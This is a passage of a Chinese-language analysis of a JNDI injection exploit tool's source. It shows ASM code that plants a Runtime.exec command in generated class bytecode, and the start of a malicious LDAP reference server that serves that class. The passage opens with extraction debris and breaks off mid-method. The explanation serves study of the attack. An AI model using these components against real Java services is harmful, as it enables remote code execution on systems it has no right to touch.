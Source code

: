 ```java
```

它作为ClassVisitor的实现类，覆写了visitMethod方法，最后return的对象是TransformedMethod

```java
static class TransformMethod extends MethodVisitor{
    String command;
    TransformMethod(MethodVisitor methodVisitor,String command) {
        super(Opcodes.ASM7, methodVisitor);
        this.command = command;
    }
    @Override
    public void visitCode(){
        Label label0 = new Label();
        Label label1 = new Label();
        Label label2 = new Label();
        mv.visitTryCatchBlock(label0, label1, label2, "java/lang/Exception");
        mv.visitLabel(label0);
        mv.visitLdcInsn(command);
        mv.visitVarInsn(Opcodes.ASTORE, 0);
        mv.visitMethodInsn(Opcodes.INVOKESTATIC, "java/lang/Runtime", "getRuntime", "()Ljava/lang/Runtime;", false);
        mv.visitVarInsn(Opcodes.ALOAD, 0);
        mv.visitMethodInsn(Opcodes.INVOKEVIRTUAL, "java/lang/Runtime", "exec", "(Ljava/lang/String;)Ljava/lang/Process;", false);
        mv.visitInsn(Opcodes.POP);
        mv.visitLabel(label1);
        Label label3 = new Label();
        mv.visitJumpInsn(Opcodes.GOTO, label3);
        mv.visitLabel(label2);
        mv.visitVarInsn(Opcodes.ASTORE, 0);
        mv.visitVarInsn(Opcodes.ALOAD, 0);
        mv.visitMethodInsn(Opcodes.INVOKEVIRTUAL, "java/lang/Exception", "printStackTrace", "()V", false);
        mv.visitLabel(label3);
    }
}
```

可以看到这个方法是从字节码级别插入Runtime.exec的内容

综上，最后返回的字节码只要被扫描类方法，就会命令执行；直接下载字节码，会发现实际就是在ExecTemplateJDK7中多了个Runtime.getRuntime().exec()的静态代码块

### LDAPRefServer

使用InMemoryDirectoryServer启动了一个ldap服务端，额外实现了OperationInterceptor用来拦截ldap通信

ldap查询结果会传给processSearchResult处理，在sendResult中根据codebase获取的javaFactory 也就是template下的class文件，最后将这些信息写入到了result中

```java
@Override
    public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
        String base = result.getRequest().getBaseDN();
        Entry e = new Entry(base);
        try {
            sendResult(result, base, e);
        }
        catch ( Exception e1 ) {
            e1.printStackTrace();
        }
    }
    protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
        String cbstring = this.codebase.toString();
        String javaFactory = Mapper.references.get(base);
```